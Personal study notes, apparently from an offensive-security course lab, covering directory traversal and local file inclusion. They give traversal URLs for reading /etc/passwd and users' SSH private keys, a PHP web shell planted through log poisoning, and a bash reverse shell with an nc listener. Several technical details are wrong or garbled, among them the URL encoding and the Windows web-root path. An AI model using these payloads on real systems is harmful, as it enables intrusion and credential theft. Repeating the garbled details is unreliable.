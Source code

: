 Traversal attacks

../ to move back and given all webapps are just getting a file in a directory of the server we can abuse this to access root from web root

web root in linux are usually at: /var/www/html/

an exmaple attack: http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
9../

this traverse from the web root to etc/passwd where all user files are kept

we can then access the ssh private key of users from

/home/username/.ssh/id_rsa

remember to chmod 400 private_key otherwise ssh is going to complain

ssh -i dt_key -p 2222 offsec@mountaindesserts.com

ssh command to connect via port 2222 using a private key file instead of passcode

on windows web root is at C:\Windows\System32\druvers\etc\hosts
note that ../ and ..\ on windows

more varied log location in windows need to read documentation of each server provider


ASCII encoding: 

sometimes web app detects characters such as .. to prevent traversal attacks

encode with ASCII: ../ == 2%e2%e/

File Inclusion Vulnerabilites

Local Files Inclusion and Log poisoning

by changing the user-agent in a get request to

<?php echo system($_GET['cmd']); ?> (php command for a shell)

we trigger the payload by accessing the access.log with

curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log

we can access the cmd via http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=<command>

space works different in url so need to encode with ASCII to %20

bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1" 
php command for forcing a reverse bash shell as php don't default on bash

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
URL encoded version

listen with nc -nvlp 4444


PHP Wrappers
